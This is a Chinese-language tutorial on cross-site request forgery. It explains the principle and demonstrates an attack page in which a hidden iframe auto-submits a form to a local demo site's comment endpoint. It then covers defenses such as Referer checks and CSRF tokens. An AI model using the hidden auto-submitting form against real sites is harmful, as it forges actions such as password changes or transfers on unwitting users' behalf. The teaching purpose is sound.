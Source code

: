 # CSRF攻击

CSRF（Cross-site request forgery），跨站请求伪造，是一种危害性较大，且至今仍广泛存在的一种安全漏洞。

## 原理

CSRF原理非常简单。

我们知道，`<img>`、`<form>`等元素不受同源策略限制，那么攻击者就可以通过这类元素来伪造HTTP请求。

当用户登录目标系统后，浏览器保存其身份凭证，此时攻击者通过钓鱼邮件、钓鱼短信等方式诱导用户访问攻击者搭建的钓鱼网站，网站上通过`<img>`、`<form>`等方式伪造用户的HTTP请求，此时浏览器是具有目标系统的登录凭证的，因此攻击者的伪造请求能够成功发送。

GET、POST等伪造请求都是可以实现的，因此CSRF攻击能够造成很多意料不到的后果。

## 攻击演示

这里我们搭建了两个网站。

网站Site：

* GET `/index`：首页，必须登录才能访问，否则重定向到登录页
* POST `/reply`：发表评论，该操作必须登录
* GET `/login`：登录页面
* POST `/login`：登录

网站Evil：

* GET `/index`：攻击页面

这里我们主要看攻击页面：

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
<iframe src="/iframe" style="display: none;"></iframe>
<script>

</script>
</body>
</html>
```

主页面嵌套了一个隐藏的`<iframe>`页面，其目的是让当前页面不刷新，让受害者被攻击了还不自知。

```html
<!doctype html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport"
          content="width=device-width, user-scalable=no, initial-scale=1.0, maximum-scale=1.0, minimum-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
</head>
<body>
    <form id="myform" action="http://localhost:8090/reply" method="post">
        <input type="text" name="reply" value="hahaha, fuck u!" />
    </form>
<script>
    document.getElementById('myform').submit();
</script>
</body>
</html>
```

`<iframe>`内部的页面，我们编写了一个表单，填入键值，并使用JavaScript自动提交。

这样一来，被攻击者被诱导访问我们的钓鱼网站后，就会在其毫不知情的情况下，让他的浏览器发送一个`POST /reply`请求给目标系统，达到攻击的目的。

实际情况下，攻击可能就不只是发表一条评论这么简单了，可能是修改密码、删除账号、转账等更危险的操作。

## 防御CSRF攻击

### 开发者

对于开发者来说，防御CSRF并不困难，因为现在主流的框架都有相关的安全组件。防御CSRF攻击主要有两个方面：

1. 检查请求`Referer`头信息，手动限制请求必须同源，实际上该限制还能同时实现防盗链。
2. 重要操作尽量采用POST请求，同时使用CsrfToken，将一个随机数放入用户填写的表单并存入服务端Session，用户发起请求时验证这个字段，该限制还能同时实现手抖造成的多次提交问题。（注：钓鱼网站是无法拿到CsrfToken的，同源策略限制浏览器不能读取跨域`iframe`中的DOM元素）

通常情况下，上述两种方式是同时使用的。

### 用户

由于系统开发者安全意识不足，造成的CSRF漏洞是防不胜防的。对于用户来说，只能是提高安全意识，不轻信钓鱼邮件等虚假信息，不轻易点击网页链接。使用浏览器的“隐私模式”等方式，以独立会话的形式，访问安全性未知的网站。
